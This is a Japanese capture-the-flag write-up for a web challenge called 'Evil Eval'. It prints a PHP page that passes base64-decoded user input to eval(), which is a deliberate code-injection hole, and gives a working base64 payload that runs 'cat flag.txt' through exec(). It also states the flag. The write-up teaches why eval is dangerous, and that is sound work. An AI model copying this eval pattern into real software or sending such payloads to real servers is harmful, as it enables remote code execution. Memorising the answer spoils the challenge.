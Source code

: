 # Evil Eval
シーザー暗号の次は, base64をデコードするページを実装したらしい。  
とはいえ, この実装ってあまり良くないんじゃ......  

flag.txtが同じディレクトリにあるらしいから, それを読みだしてこの実装の危険性を教えてあげて。  

http://34.82.49.144:3337/  

## Attachment
 - [show.php](./show.php)

# 解法
show.phpを見ると, 下記の部分で文字列を入力していることがわかります。  

```
<?php
$result = "";
    if (isset($_GET['data'])) {
        $data = $_GET['data'];
        $raw = base64_decode($data);
        eval('$result = ' . $raw . ';');
    }
?>
```

ここでは, GETリクエストで`?data`パラメータに入った値をbase64でデコードして, `eval('$result = ' . $raw . ';')`を実行しています。  
そのため, base64でエンコードした値を`?data`パラメータに入れておけば, `eval('$result = {任意の文字列};')`を実行できることになります。  

[`eval`](https://www.php.net/manual/ja/function.eval.php)はその中の文字列をPHPコードとして評価します。そのため, `0; echo exec('cat flag.txt')`を入力できれば, `eval('$result = 0; echo exec('cat flag.txt')';)`を実行できます。  

この文字列をbase64でエンコードした`MDsgZWNobyBleGVjKCdjYXQgZmxhZy50eHQnKQ==`を入力すれば, フラグが得られます。  

# 別解
後から気づいたのですが, flag.txtのパーミッションに欠陥があり, http://34.82.49.144:3337/flag.txt にアクセスすると`flag.txt`が表示されます。  
しょうもないところでミスをしてしまい, 申し訳ありませんでした。  

# フラグ
`taskctf{eval_1s_b4d_h4bit}`  

# コメント
アクセス制限ミスはやらかしました。

徳丸本を読んでいた時に, `eval`は絶対に使うなと書かれていたので, 採用しました。
